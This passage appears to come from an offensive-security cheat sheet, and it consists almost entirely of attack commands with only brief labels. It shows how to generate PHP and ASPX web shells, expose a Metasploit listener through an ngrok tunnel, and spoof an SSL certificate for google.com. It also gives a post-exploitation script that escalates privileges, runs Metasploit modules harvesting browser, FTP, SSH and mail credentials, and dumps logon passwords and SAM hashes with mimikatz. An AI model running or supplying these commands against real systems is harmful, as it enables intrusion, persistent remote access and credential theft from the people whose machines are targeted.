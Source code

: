 #### [**Weevely**](https://github.com/epinna/weevely3)

{% hint style="info" %}
Create Web Shell PHP
{% endhint %}

```bash
weevely generate 00980098 /tmp/unk9vvn.php
```

{% hint style="info" %}
Create Web Shell ASPX
{% endhint %}

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx /tmp/unk9vvn.aspx
```

#### [**Metasploit**](https://www.metasploit.com/)

{% hint style="info" %}
Start Ngrok
{% endhint %}

```bash
ngrok tcp 4444 >/dev/null 2>&1 &
```

{% hint style="info" %}
Define ENV Ngrok
{% endhint %}

```bash
NGINFO=$(curl --silent --show-error http://127.0.0.1:4040/api/tunnels); \
NGHOST=$(echo "$NGINFO" | sed -nE 's/.*public_url":"tcp:\/\/([^"]*):.*/\1/p'); \
NGPORT=$(echo "$NGINFO" | sed -nE 's/.*public_url":"tcp:\/\/.*.tcp.*.ngrok.io:([^"]*).*/\1/p')
```

{% hint style="info" %}
Cert Spoof
{% endhint %}

```bash
rm -rf /home/$USER/.msf4/loot/*
msfconsole -qx "
    use auxiliary/gather/impersonate_ssl;
    set RHOSTS google.com;
    run;
    exit"
```

{% hint style="info" %}
Post-EXP
{% endhint %}

```bash
cat > /tmp/post-exp.rc << EOF
getprivs
getsystem
run multi/gather/firefox_creds DECRYPT=true
run multi/gather/filezilla_client_cred
run multi/gather/ssh_creds
run multi/gather/thunderbird_creds
run multi/gather/wlan_geolocate
mimikatz
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
bg
EOF
```